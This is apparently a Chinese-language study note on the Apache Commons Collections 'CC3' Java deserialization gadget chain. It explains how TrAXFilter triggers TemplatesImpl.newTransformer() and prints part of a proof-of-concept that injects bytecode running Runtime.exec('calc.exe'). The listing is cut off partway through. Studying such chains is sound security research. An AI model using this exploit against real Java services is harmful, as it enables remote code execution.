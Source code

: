 ![image-20220119165813302](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220119165813302.png)

在该类的构造方法中，调用了传入参数的`newTransformer()`方法，看到这个方法有点熟悉了，可以实现命令执行，并且参数可控；

CC2中，就是在`InvokerTransformer.transform()`中通过反射调用`TemplatesImpl.newTransformer()`方法，而CC3中，就可以直接使用`TrAXFilter`来调用`newTransformer()`方法

而前面走调用transform方法则可以用CC1的LzayMap的动态代理

# 利用链分析

POC

```
package CC3;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InstantiateTransformer;
import org.apache.commons.collections.map.LazyMap;

import javax.xml.transform.Templates;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

public class CC3payload {
    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass STU = pool.makeClass("T0WN");
        String cmd = "java.lang.Runtime.getRuntime().exec(\"calc.exe\");";
        STU.makeClassInitializer().insertBefore(cmd);
        STU.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        STU.writeFile();
        byte[] bytes = STU.toBytecode();
        byte[][] targetbytes = new byte[][]{bytes};

        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setFiledValue(templates,"_bytecodes",targetbytes);
        setFiledValue(templates,"_name","DawnT0wn");
        setFiledValue(templates,"_class",null);

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates})
        };

        ChainedTransformer chain = new ChainedTransformer(transformers);

        Map innermap = new HashMap();
```